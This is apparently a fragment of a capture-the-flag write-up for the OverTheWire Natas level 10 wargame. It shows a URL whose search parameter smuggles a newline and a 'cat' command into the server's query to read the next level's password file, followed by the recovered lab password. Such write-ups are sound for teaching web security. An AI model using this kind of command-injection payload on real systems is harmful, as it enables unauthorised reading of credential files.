 ```
http://natas10.natas.labs.overthewire.org/?needle=%0Acat%20/etc/natas_webpass/natas11
```

![Password](assets/natas/10/password.png)

password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

